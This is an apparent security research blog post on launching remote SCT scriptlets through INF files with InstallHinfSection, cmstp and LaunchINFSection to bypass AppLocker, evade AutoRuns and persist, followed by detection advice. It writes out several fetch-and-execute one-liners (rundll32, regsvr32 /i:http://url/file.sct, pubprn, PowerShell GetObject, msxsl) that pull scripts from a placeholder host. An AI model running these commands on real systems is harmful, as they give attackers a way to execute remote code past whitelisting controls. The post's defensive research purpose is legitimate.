 # Leveraging INF-SCT Fetch & Execute Techniques For Bypass Applocker, Evasion, & Persistence

### Introduction

Over the last few weeks, I researched and tested a few interesting namespaces/methods documented on various Microsoft/MSDN sources that dealt with executing various COM scripts/scriptlets (e.g. VBscript, Jscript, etc.).  In particular, I was curious to see if there were potentially new ways to invoke remote scripts (ActiveX Objects) by leveraging some of the great research already performed and documented by [@subTee](https://twitter.com/subTee), [@Oddvarmoe](https://twitter.com/Oddvarmoe), [@ItsReallyNick](https://twitter.com/ItsReallyNick), [@KyleHanslovan](https://twitter.com/KyleHanslovan), [@ChrisBisnett](https://twitter.com/chrisbisnett), and [@NickTyrer](https://twitter.com/NickTyrer).  There were some interesting findings, but the one that really stood out was the discovery of **LaunchINFSection**, a ‘new’ method to remotely launch staged SCT files configured within INF files.

In this post, we’ll discuss several known INF-SCT launch methods, introduce LaunchINFSection, and dive into use cases/defensive considerations.  Additionally, we’ll reference other techniques for remote script/scriptlet execution.

### INF-SCT Launch Methods

Methods for launching script component files (‘.sct’) via INF configuration files include InstallHinfSection (setupapi.dll), CMSTP, and LaunchINFSection (advpack.dll).  Let’s dive in…

**Malicious INF-SCT Usage with InstallHinfSection**

At [DerbyCon](https://twitter.com/DerbyCon) 2017, @KyleHanslovan and @ChrisBisnett of [@HuntressLabs](https://twitter.com/HuntressLabs) presented a very interesting topic – [Evading AutoRuns](https://github.com/huntresslabs/evading-autoruns/blob/master/Evading\_Autoruns\_Slides.pdf).  In their presentation, they showcase a method for launching remote SCT via INF by invoking  InstallHinfSection with the following command:

```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 [path to file.inf]
```

Within the [source](https://raw.githubusercontent.com/huntresslabs/evading-autoruns/master/shady.inf) INF file used for remote SCT execution, ‘rundll32.exe setupapi.dll,InstallHinfSection’ calls the default INF section (‘DefaultInstall’).  Under this section, the Unregister DLLs directive (UnregisterDlls) calls the ‘Squiblydoo’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF-SCT Usage With CMSTP**

About a month ago, @NickTyrer demonstrated on [Twitter](https://twitter.com/NickTyrer/status/958450014111633408) that INF files could be used to fetch SCT files from web resources to execute COM scripts/scriptlets using **cmstp.exe**, a utility that had been documented by @Oddvarmoe to [bypass](https://msitpros.com/?p=3960) UAC and AppLocker default policies.  For reference, basic usage for cmstp.exe is as follows:

```
cmstp.exe /s [file].inf
```

Within the [source](https://twitter.com/NickTyrer/status/958450014111633408) INF file used for remote SCT execution, cmstp.exe calls the INF section named ‘DefaultInstall\_SingleUser’.  Under this section, the OCX unregister directive (UnRegisterOCX) calls the ‘UnRegisterOCXSection’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF/SCT Usage With LaunchINFSection**

According to Microsoft [documentation](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/gg441316\(v=vs.85\)), LaunchINFSection is a method within the Advanced INF Package Installer (advpack.dll) that is used to invoke a particular section within a setup information (.inf) file.  In the administrative sense, INF files are typically used as an instruction file for the installation of device drivers and/or Windows Cabinet (.cab) files, which may include registering Windows binaries (exe, dll, ocx), adding keys to the registry, and/or specifying critical parameter settings.  The general method for LaunchINFSection invocation is as follows:

```
rundll32.exe advpack.dll,LaunchINFSection [file].inf,[INF Section],[Path to Cab].cab,[Installation Flags]
```

If the \[INF Section] is not specified, LaunchINFSection will attempt to call **DefaultInstall** for the default section.  Additionally, it is worth noting that the Advanced INF Package Installer also contains the function **LaunchINFSectionEx** as well as other character set comparability functions (e.g. LaunchINFSectionA), which effectively do the same thing as LaunchINFSection.

For proof of concept, we can simply [modify](https://gist.githubusercontent.com/bohops/693dd4d5dbfb500f1c3ace02622d5d34/raw/902ed953a9188b27e91c199b465cddf855c7b94f/test.inf) the INF file used by @NickTyrer with a staged SCT script payload found [here](https://gist.githubusercontent.com/bohops/6ded40c4989c673f2e30b9a6c1985019/raw/33dc4cae00a10eb86c02b561b1c832df6de40ef6/test.sct) (big shout out to @subTee and [@redcanaryco](https://twitter.com/redcanaryco) for providing their AtomicRedTeam scripts and many useful test payloads to the community). Let’s download the modified INF to the ‘target’ (test.inf) and invoke LaunchINFSection (using a placeholder value of ‘1’ for our non-existant cab file) with the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,DefaultInstall_SingleUser,1,
```

As shown in the following screenshot, our INF-SCT-Calc Scriptet payload was successfully launched:

![LaunchInfSection](.gitbook/assets/1663772500.png?w=756)

Take note that we can also launch our payload in other, slightly different ways.  If we change the INF file entry point section to ‘DefaultInstall’, we can launch our payload without section specification using the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
```

The same payload is successfully launched:

![LaunchInfSection2](.gitbook/assets/1663772500.png?w=756)

Additionally, we can change the OCX unregister directive to a register directive (‘RegisterOCXs’) and supply a random name (e.g. ‘MoreFun’) to invoke the same payload:

![LaunchInfSection3](.gitbook/assets/1663772501.png?w=756)

### Some Use Cases & Defensive Considerations

In addition to the environmental considerations above, defenders should keep an eye out for these:

**Malware**

In the wild, actors have leveraged malware INF payloads.  @ItsReallyNick discovered several [malware samples](https://twitter.com/ItsReallyNick/status/958789644165894146) that actually took advantage of @NickTyrer’s CMSTP technique a few years ago.  Other samples show malware from the early 2000s that appear to take advantage of more native administrative techniques using LaunchINFSection without INF-SCT execution.

![LaunchInfSectionMalware](.gitbook/assets/1663772501.png?w=756)

![LaunchInfSectionMalware2](.gitbook/assets/1663772502.png?w=756)

**Bypass, Evasion, & Persistence**

In addition to [bypassing](https://msitpros.com/?p=3960) Operating System security controls such as Application Whitelisting and User Account Control, CMSTP can be used for AutoRuns evasion and persistence.  Here is a screenshot that does not show CMSTP when the ‘Hide Windows Entries’ flag is enabled within AutoRuns:

![cmstp\_autoruns1](.gitbook/assets/1663772502.png?w=756)

Here is a screenshot with CMSTP present without any filtering:

![cmstp\_autoruns2](.gitbook/assets/1663772503.png?w=756)

\*Note: LaunchINFSection and InstallHinfSection do not appear to be evasive candidates for (newer) versions of AutoRuns because these methods rely on rundll32.exe to invoke the respective dll.  These methods are not filtered after hiding Windows and Microsoft entries.  However, LaunchINFSection proves to be a valid application whitelisting bypass technique as we were able to “gain code execution” against [default](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/) AppLocker rules.

**On the Network**

Hopefully, network analysis is still important these days.  Here is a sample GET request invoked by scrobj.dll to fetch a fake SCT file:

![get\_request](.gitbook/assets/1663772503.png?w=756)

Take note of the User-Agent.  Interestingly enough, I have seen this with other Microsoft utilities that have the ability to perform such requests.  These days, it may be worth treating anything that remote fetches with scrutiny (I know – easier said than done).

**Arbitrary File Names**

**Now for a kicker** – SCT files are merely text/XML files and INF files are text files.  In my basic testing, these files **do not need a proper extension for invocation**.  In this example, we call ‘test.notinf’ and ‘test.notsct’ to successfully execute our ‘sct’ payload:

![notsct](.gitbook/assets/1663772503.png?w=756)

**Other Considerations**

\*Host Monitoring is essential.  If budget is a constraint, consider using [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) (free) to feed your ([open-source](https://wazuh.com/)) SIEM.  Monitor for the introduction of new “.inf” files within the environment and execution of such files with the methods described above.

\*Application Whitelisting is still essential.  Default AppLocker rules are pretty much based on path constraints.  As I previously [blogged](https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/) about, some of these paths do allow users to write to sub-directories in sensitive hierarchical paths.  Ensure these paths are locked down.  This will at least help protect against a subset of execution techniques (and hopefully alert you when an event is triggered).

\*INF execution is not the only way to invoke ‘sct’ scripts.  I will blog about other methods in greater detail down the road (including some ‘new’ techniques), but here is a quick rundown of a few of them:

**RegSvr32/Scrobj.dll** \[[Reference](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md)]

```
regsvr32 /s /n /u /i:http://url/file.sct scrobj.dll
```

**PubPrn** \[[Reference](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)]

```
pubprn.vbs 127.0.0.1 script:http://url/file.sct
```

**Microsoft.JScript.Eval Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965085651199840258)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http://url/file.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

**Microsoft.VisualBasic.Interaction Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965670898379476993)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http://url/file.sct').Exec(0)
```

\*It is also worth noting that ‘sct’ is not the only player in the game.  Here are a few other ‘remote’ XML/XSLT techniques that need to be monitored:

**MsXSL** \[[Reference](https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker)]

```
msxsl.exe http://url/file.xml http://url/file.xsl
```

**System.Xml.Xsl.XslCompiledTransform Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/966172175555284992)]

```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('http://url/file.xsl',$s,$r);$x.Transform('http://url/file.xml','z');del z;
```

### Conclusion

Thank you for taking the time to read this blog post.  I will add content as I learn more and/or capture greater insight from the community.  If you have questions/comments/or notice that I left out anything important, send me an email through the \[contact]
